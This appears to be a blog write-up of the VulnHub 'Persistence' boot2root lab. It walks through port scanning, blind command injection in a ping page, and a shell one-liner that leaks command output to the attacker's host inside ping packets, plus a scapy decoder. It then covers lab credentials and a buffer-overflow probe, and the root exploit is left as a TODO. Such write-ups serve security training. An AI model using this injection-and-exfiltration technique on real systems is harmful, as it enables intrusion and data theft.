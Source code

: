 ```yaml
---
layout: post
title: "Persistence boot2root writeup"
description: "Persistence boot2root writeup"
category: writeups
tags: [boot2root, vulnhub]
---
```

Initial recon shows that only one port is open with a web server running

{% highlight console %}
root@kali:~# netdiscover -i eth0
Currently scanning: 192.168.70.0/16   |   Screen View: Unique Hosts

1 Captured ARP Req/Rep packets, from 1 hosts.   Total size: 102
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.2.105   00:00:de:ad:be:ef      1      42  Unknown vendor
root@kali:~# unicornscan -I -mT 192.168.2.105:a;unicornscan -I -mU 192.168.2.105:a
TCP open 192.168.2.105:80  ttl 64
TCP open                    http[   80]         from 192.168.2.105  ttl 64

{% endhighlight %}
Browsing to the web server, there is a static page with an image.
After a little bit of enumeration we find one other page on the web server(debug.php).
{% highlight bash %}
root@kali:~# nikto -h 192.168.2.105 -C all
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.2.105
+ Target Hostname:    192.168.2.105
+ Target Port:        80
+ Start Time:         2016-06-12 00:50:51 (GMT-4)
---------------------------------------------------------------------------
+ Server: nginx/1.4.7
+ Server leaks inodes via ETags, header found with file /, fields: 0x531fe71e 0x187 
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.3.3
+ /debug.php: Possible debug directory/program found.
+ 26171 requests: 6 error(s) and 6 item(s) reported on remote host
+ End Time:           2016-06-12 00:51:18 (GMT-4) (27 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
{% endhighlight %}
Browsing to the page we find a web page which allows us to ping an inputted IP address. <img src="{{site.url}}/assets/debug_php.png">
I was able to verify that the ping command was working by running a packet capture when I submitted my query
{% highlight console %}
root@kali:~# tcpdump -i eth0 'icmp'
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
00:53:29.550594 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 1, length 64
00:53:29.550607 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 1, length 64
00:53:30.550244 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 2, length 64
00:53:30.550267 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 2, length 64
00:53:31.550275 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 3, length 64
00:53:31.550297 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 3, length 64
00:53:32.550300 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 4, length 64
00:53:32.550320 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 4, length 64
{% endhighlight %}
After experimenting with various inputs I found that you can inject commands by appending a semicolon and adding additional commands.
The only issue is we have blind command injection as the page does not return the output of the commands.
After reading the man page for ping, there is one interesting arguments which can be used to transmit our command output.
The "-p" ping argument allows you specify 16 bytes to fill out the packet you send.
By abusing the "-p" argument and encoding the results of a command we have a working a shell.
Initially, I was trying to transmit 16 bytes at a time but faced issues when decoding a payload which was smaller than 16 bytes.
I gave up transmitting 16 bytes at a time and ended up only transmitting 1 byte at a time.
The below command will stop the first command, execute a command of our choosing and encode the command results in a series of ping packets
{% highlight bash %}
;PAYLOADS=$(ls -l 2>&1 | xxd -c 16 -ps); for PAYLOAD in $PAYLOADS; do ping -c 1 -p $PAYLOAD 192.168.2.103; done
{% endhighlight %}
Initially I was thinking of decoding the ping packets using a shell script with tshark but settled with scapy.
I hacked together the following script which will capture the ping packets, decode them and print the command injected command's output.
{% highlight python %}
#!/usr/bin/env python2
from scapy.all import *

while True:
    packetcapture = sniff(timeout=1, filter='icmp[icmptype] == 8')
    for packet in packetcapture:
        if packet.haslayer(ICMP) and packet.getlayer(ICMP).type == 8:
            sys.stdout.write(packet.getlayer(ICMP).load[8])
{% endhighlight %}
The script will output your command output similar to the following.
{% highlight console %}
root@kali:~# ./persistence-ping-decode.py
WARNING: No route found for IPv6 destination :: (no default route?)
uid=498(nginx) gid=498(nginx) groups=498(nginx)
Linux persistence 2.6.32-431.5.1.el6.i686 #1 SMP Tue Feb 11 21:56:33 UTC 2014 i686 i686 i386 GNU/Linux
/usr/share/nginx/html
total 160
-rwxr-xr-x. 1 root root    439 Mar 17  2014 debug.php
-rw-r--r--. 1 root root    391 Mar 12  2014 index.html
-rw-r--r--. 1 root root 146545 Mar 12  2014 persistence_of_memory_by_tesparg-d4qo048.jpg
-rwsr-xr-x. 1 root root   5757 Mar 17  2014 sysadmin-tool
{% endhighlight %}
After getting the ping decode script working, I explored the file system a little bit.
It appeared that nginx was running inside of a chroot with only a few commands avaliable to us.
It also appeared that there was a local firewall dropping traffic.
I ended up downloading the interesting looking 'sysadmin-tool' binary which was being hosted and started investigating.
What was interesting is that that binary has the SUID bit set.
I ran strings against the binary which revealed the following interesting strings:
{% highlight console %}
Usage: sysadmin-tool --activate-service
--activate-service
breakout
/bin/sed -i 's/^#//' /etc/sysconfig/iptables
/sbin/iptables-restore < /etc/sysconfig/iptables
Service started...
Use avida:dollars to access.
/nginx/usr/share/nginx/html/breakout
{% endhighlight %}
It appears that the binary will disable the local firewall and provide login credentials.
I proceeded to run the binary and expected it disabled the local firewall and provided provided login credentials.
{% highlight console %}
root@kali:~# ./persistence-ping-decode.py
WARNING: No route found for IPv6 destination :: (no default route?)
Service started...
Use avida:dollars to access.
{% endhighlight %}
After a quick port scan, we see that SSH is now open. If you SSH in using the provided credentials you'll be dropped into a rbash shell.
{% highlight console %}
root@kali:~# unicornscan -I -mT 192.168.2.105:a;unicornscan -I -mU 192.168.2.105:a
TCP open 192.168.2.105:80  ttl 64
TCP open 192.168.2.105:22  ttl 64
TCP open                     ssh[   22]         from 192.168.2.105  ttl 64
TCP open                    http[   80]         from 192.168.2.105  ttl 64
{% endhighlight %}
Looking around you can see there is a custom program named "wopr" running as root.
{% highlight console %}
-rbash-4.1$ ps aux | grep wopr
root      1092  0.0  0.0   2004   408 ?        S    05:54   0:00 /usr/local/bin/wopr
avida     2149  0.0  0.0   4356   732 pts/0    S+   06:48   0:00 grep wopr
{% endhighlight %}
I proceeded to download the binary and check for bufferoverflows.
{% highlight console %}
root@kali:~# ssh avida@192.168.2.105 "cat /usr/local/bin/wopr" > wopr
avida@192.168.2.105's password:
root@kali:~# ./wopr
[+] bind complete
[+] waiting for connections
[+] logging queries to $TMPLOG
[+] got a connection
*** stack smashing detected ***: ./wopr terminated
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x6929b)[0xf75f329b]
/lib/i386-linux-gnu/libc.so.6(__fortify_fail+0x37)[0xf7682eb7]
/lib/i386-linux-gnu/libc.so.6(+0xf8e78)[0xf7682e78]
./wopr[0x80487dc]
[0x41414141]
======= Memory map: ========
08048000-08049000 r-xp 00000000 fe:01 1705762                            /root/wopr
08049000-0804a000 r--p 00000000 fe:01 1705762                            /root/wopr
0804a000-0804b000 rw-p 00001000 fe:01 1705762                            /root/wopr
084b4000-084d5000 rw-p 00000000 00:00 0                                  [heap]
f7589000-f758a000 rw-p 00000000 00:00 0
f758a000-f773b000 r-xp 00000000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773b000-f773c000 ---p 001b1000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773c000-f773e000 r--p 001b1000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773e000-f773f000 rw-p 001b3000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773f000-f7742000 rw-p 00000000 00:00 0
f7747000-f7763000 r-xp 00000000 fe:01 265577                             /lib/i386-linux-gnu/libgcc_s.so.1
f7763000-f7764000 rw-p 0001b000 fe:01 265577                             /lib/i386-linux-gnu/libgcc_s.so.1
f7764000-f7765000 rw-p 00000000 00:00 0
f7765000-f7768000 rw-p 00000000 00:00 0
f7768000-f776b000 r--p 00000000 00:00 0                                  [vvar]
f776b000-f776d000 r-xp 00000000 00:00 0                                  [vdso]
f776d000-f778f000 r-xp 00000000 fe:01 272682                             /lib/i386-linux-gnu/ld-2.22.so
f778f000-f7790000 r--p 00021000 fe:01 272682                             /lib/i386-linux-gnu/ld-2.22.so
f7790000-f7791000 rw-p 00022000 fe:01 272682                             /lib/i386-linux-gnu/ld-2.22.so
ffca8000-ffcc9000 rw-p 00000000 00:00 0                                  [stack]
root@kali:~# python -c 'print "A"*1024' | nc localhost 3333
[+] hello, my name is sploitable
[+] would you like to play a game?
> [+] yeah, I don't think so
{% endhighlight %}
# TODO: Build a working exploit
